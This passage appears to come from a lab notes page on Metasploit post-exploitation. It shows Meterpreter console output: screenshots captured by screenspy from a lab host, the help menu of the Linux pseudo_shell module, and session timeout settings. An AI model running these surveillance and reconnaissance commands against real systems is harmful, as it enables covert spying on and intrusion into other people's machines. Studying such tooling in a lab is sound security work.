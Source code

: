 ```
10.0.2.15           screenspy.screenshot  screenshot.4.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200141_default_10.0.2.15_screenspy.screen_723895.jpg
10.0.2.15           screenspy.screenshot  screenshot.5.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200153_default_10.0.2.15_screenspy.screen_495403.jpg
```

#### 2.1.7 - Pseudo Shell

```
meterpreter > run post/linux/manage/pseudo_shell
user@debian:/home/user$ ?

Commands Help
==============

        Command             Description
        -------             -----------
        ?                   Show current help
        cat                 Show file contents
        cd                  Change current directory
        clear               Clear screen
        exit                Exit the Pseudo-shell
        groups              Show list of groups
        help                Show current help
        hostname            Show current Hostname
        interfaces          Show list of network interfaces
        ips                 Show list of current IP addresses
        isroot?             Show if current user has root permisions
        ls                  List files and folders in a directory
        macs                Show list of MAC addresses
        path                Show current directories included in $PATH enviroment variable
        pwd                 Show current PATH
        shell               Show current SHELL
        tcp_ports           Show list of listen TCP ports
        udp_ports           Show list of listen UDP ports
        users               Show list of users
        whoami              Show current user

user@debian:/home/user$
```

#### 2.1.8 - Miscellaneous

```
meterpreter > get_timeouts
Session Expiry  : @ 2022-05-21 17:23:58
Comm Timeout    : 300 seconds
Retry Total Time: 3600 seconds
Retry Wait Time : 10 seconds
```

### 2.2 - Extensions
